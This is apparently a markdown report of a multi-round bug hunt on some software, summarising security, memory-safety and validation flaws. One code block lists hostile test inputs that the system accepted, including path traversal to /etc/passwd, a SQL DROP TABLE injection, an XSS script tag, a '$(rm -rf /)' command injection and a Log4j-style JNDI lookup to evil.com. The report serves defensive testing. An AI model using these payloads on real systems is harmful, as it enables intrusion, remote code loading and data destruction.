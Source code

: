 ### **Round 5: Security Vulnerabilities (12 bugs)**
- **Injection Attacks**: 7 malicious inputs accepted (path traversal, SQL injection, XSS)
- **Buffer Overflows**: 2 extremely long inputs accepted
- **Information Disclosure**: 2 debug statements leaking sensitive data
- **CRITICAL**: Path traversal and command injection vulnerabilities

### **Round 6: Memory Corruption (7 bugs)**
- **Buffer Overflow**: 5 progressively larger inputs accepted (1KB to 10MB)
- **Use-After-Free**: 2 objects accessible after cleanup
- **CRITICAL**: Memory safety violations that could crash the system

---

## 🚨 **Critical Security Vulnerabilities Discovered**

### **Injection Attack Vectors**
```bash
# These malicious inputs were ACCEPTED by the system:
../../../etc/passwd           # Path traversal
'; DROP TABLE users; --       # SQL injection  
<script>alert('xss')</script> # XSS attack
$(rm -rf /)                   # Command injection
${jndi:ldap://evil.com/a}     # Log4j-style injection
```

### **Buffer Overflow Vulnerabilities**
- **10MB strings accepted** as IP URLs - potential memory exhaustion
- **Extremely long paths accepted** - filesystem vulnerabilities
- **No length validation** on critical input parameters

### **Memory Safety Issues**
- **Use-after-free** - objects accessible after cleanup
- **Double-free potential** - cleanup called multiple times
- **Memory leaks** in rapid object creation/destruction

---

## 🎯 **Why Each Round Found Different Bugs**

### **Round 1**: AST analysis caught structural issues missed by runtime testing
### **Round 2**: Boundary testing revealed validation gaps
### **Round 3**: Performance analysis found parameter limits issues  
### **Round 4**: Static analysis revealed code quality and type safety issues
### **Round 5**: Security testing uncovered injection vulnerabilities
### **Round 6**: Memory analysis found corruption and overflow risks
